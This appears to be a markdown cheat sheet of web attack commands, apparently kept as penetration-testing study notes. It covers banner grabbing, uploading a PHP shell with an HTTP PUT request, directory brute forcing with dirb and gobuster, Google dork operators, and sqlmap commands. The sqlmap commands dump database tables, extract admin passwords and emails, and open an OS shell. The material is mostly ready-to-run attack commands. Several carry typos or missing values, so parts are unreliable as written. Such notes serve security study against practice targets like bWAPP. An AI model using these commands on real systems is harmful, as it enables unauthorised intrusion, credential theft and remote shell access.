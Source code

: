 # Web Attacks


### Banner grabbing
```
nc -v <target> <port>
HEAD / HTTP/1.0
```

### HTTPS services
```
openssl s_client -connect <target>:<port>
HEAD / HTTP/1.0
```


### Fingerpriting with Httprint
```
httprint -P0 -h <target> -s <signature file>
```


### HTTP Verbs
```
GET, POST, HEAD, PUT, DELETE, OPTIONS
```

### Using PUT to upload shell
```
# Get the content length of the shell
wc -m shell.php
<payload content length output>

# Then using nc to upload with the PUT method
nc <target> <port>
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: <length of payload>
```


### Directory and File Enumeration

Enumeration of files and directories can lead to many hidden resources that could contain:

- New and untested features
- Backup files
- Testing information
- Developer's notes

```
# Dirb is a great tool to use for directory/file brute forcing
dirb http://<target>

Use Username and Password 
dirb http://172.16.64.140/project -u admin:admin

# Gobuster is another directory/file scanner written in Go
gobuster -u <target> -w <path to wordlist> -o <file to output to>
```

### Google Dorks
| Command               | Meaning                                                                                                     |
|-----------------------|-------------------------------------------------------------------------------------------------------------|
| site:                 | You can use this command to include only results on a given hostname.                                       |
| intitle:              | This command filters according to the title of a page.                                                      |
| inurl:                | Similar to intitle, but works on the URL of a resource.                                                     |
| filetype:             | This filters by using the file extension of a resource. For example .pdf or .xls.                           |
| AND, OR, &,           | You can use logical operators to combine your expressions. For example: site:example.com OR site:another.com |
| -                     | You can use this character to filter out a keyword or a command's result from the query.                    |

### SQL Injection with SQLMap

```
sqlmap -u <target> -p <paramater> [options]

# Example
sqlmap -u 'http://vicitim.site/search.php?id=2' -p id --technique=U

# Dump contents of a specific table in a database
sqlamp -u 'http://victim.site/search.php?=1' -D <database name> -T <table name> --dump

# sqlmap using cookie
sqlmap -u "URL" --cookie="PHPSESSID;SECURIRTY_LEVEL" -p 

Use the SQLMapto to get a list of databases present on the database server.
sqlmap -u "url" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs

Use the SQLMap to get a list of tables for database bWAPP.
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables

Use the SQLMap to get the list of columns in the users table of the bWAPP database
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns

SQLMap to dump password and email for admin from the users table. Press 'n' twice when prompted.
sqlmap -u "url" --cookie "PHPSESSID=; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump

SQL Injection (POST/Search)

Run SQLMap with this saved file. Again take "title" as the test parameter
sqlmap -r request -p title

os shell using sqlmap --os-shell option.
sqlmap -r request -p title --os-shell
```










